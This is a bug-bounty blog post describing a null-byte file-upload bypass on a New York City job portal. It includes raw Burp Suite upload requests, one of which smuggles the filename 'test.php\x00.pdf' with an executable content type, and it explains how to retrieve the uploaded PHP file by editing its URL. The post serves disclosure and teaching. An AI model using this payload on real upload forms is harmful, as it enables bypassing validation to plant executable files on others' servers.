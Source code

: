 ```yaml
---
layout: post
title: "Null-Byte File Upload Bypass: PoC on a NYC Portal"
date: 2025-08-29
categories: [bug-bounty]
image: https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dIWSWrtC08kIaoVTLITp5w.jpeg
permalink: /blog/NYC-DOWN-FUV
locked: false
---
```


While searching for jobs on a New York City job portal, I decided to create an account and explore the platform’s features. One of the first things I did was update my profile and upload my resume, just like any typical job seeker would. The profile page looked something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*LfMseQB6u9eC7ER5irMVAA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>


As I interacted with the site, I started to notice some interesting behaviors in the file upload functionality. The platform only allowed certain file types specifically PDF and TXT files. Any attempt to upload other or potentially malicious files was blocked.

When uploading a file, you would see a request similar to this:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite request</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="rest.pdf"
Content-Type: application/pdf

%PDF-1.3
%Äåòåë§ó ÐÄÆ
4 0 obj
<< /Length 5 0 R /Filter /FlateDecode >>
stream.....
</code></pre>
</div>

However, if we modify the upload request and change the filename to include a null byte (for example, `test.php\x00.pdf`) and set the `Content-Type` to something like `application/vnd.microsoft.portable-executable`, the server processes the file as `test.php\x00.pdf`. This could potentially allow us to bypass the file type restrictions.

Here’s how the modified request would look:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite request (null byte bypass)</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="test.php\x00.pdf"
Content-Type: application/vnd.microsoft.portable-executable

<--MZ binary content-->
------WebKitFormBoundaryvqrfq0aFgpBXXzTT--
</code></pre>
</div>

This trick can sometimes bypass weak file validation mechanisms, potentially allowing the upload of executable or malicious files.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*4sE7RSkRelC-XNJeqqNgBg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Now, when you try to access the uploaded file, the application returns a "Page Not Found" error, and the URL looks like this:

```
http://localhost:5000/file/filename.php/x00
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*yPJ1-vbmpXkK2wkQYowPtA.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

However, if you manually remove the `/x00` from the URL so it becomes:

```
http://localhost:5000/file/filename.php
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*FUQ2f6XnHFX7cxqhFNDRFg.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

you are able to download the uploaded PHP file directly.

Below is a demonstration of replicating this vulnerability on a test environment (not the NYC job portal), but the screenshots above are from the real site:

## Video Demonstration

<div style="position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden;">
  <iframe 
    src="https://www.youtube.com/embed/p3waRC1e7jo" 
    frameborder="0" 
    allowfullscreen 
    style="position: absolute; top:0; left: 0; width: 100%; height: 100%;">
  </iframe>
</div>

**Thank you for reading!** If you found this post helpful or interesting, stay tuned for more cybersecurity stories and insights. See you

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*83hlWRWOv-NhKdltd1awtg.png"
  alt="No Detection"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>